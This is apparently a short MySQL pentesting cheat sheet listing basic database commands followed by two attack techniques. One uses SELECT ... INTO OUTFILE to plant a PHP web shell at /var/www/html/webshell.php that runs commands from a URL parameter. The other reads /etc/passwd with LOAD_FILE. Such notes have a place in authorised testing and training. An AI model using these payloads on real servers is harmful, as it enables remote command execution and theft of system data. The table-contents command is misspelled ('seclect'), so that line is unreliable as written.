 
View Databases:

```bash
show databases;
```

Use Database:

```bash
use <database>;
```

View Tables:


```bash
show tables;
```

View Contents of Table:

```bash
seclect * from <table_name>;
```

Write file to system

```bash
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Read file on system

```bash
select LOAD_FILE("/etc/passwd");
```